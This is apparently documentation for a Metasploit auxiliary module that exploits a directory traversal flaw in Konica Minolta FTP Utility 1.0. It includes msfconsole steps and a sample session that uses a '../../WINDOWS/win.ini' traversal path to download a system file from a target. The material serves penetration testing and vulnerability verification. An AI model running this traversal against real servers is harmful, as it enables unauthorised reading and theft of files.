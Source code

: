 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in Konica Minolta FTP Utility 1.0. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Link to Konica Minolta FTP Utility 1.00 software download [Exploit-DB](https://www.exploit-db.com/apps/6388a2ae7dd2965225b3c8fad62f2b3b-ftpu_10.zip)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/konica_ftp_traversal`
  3. set RHOSTS [ip]
  4. Do: `run`

## Scenarios

### Konica Minolta FTP Utility 1.00 on Windows 7 (X64)

  ```
  msf5 > use modules/auxiliary/scanner/ftp/konica_ftp_traversal
  msf5 auxiliary(scanner/ftp/konica_ftp_traversal) > set RHOSTS 1.1.1.1
    RHOSTS => 1.1.1.1
  set PATH ../../WINDOWS/win.ini
    PATH => ../../WINDOWS/win.ini
  msf5 auxiliary(scanner/ftp/konica_ftp_traversal) > run
  [+] 1.1.1.1:21      - Stored ../../WINDOWS/win.ini to /root/.msf4/loot/20191122042114_default_192.168.2.253_konica.ft     p.data_003802.ini
  [*] 1.1.1.1:21      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
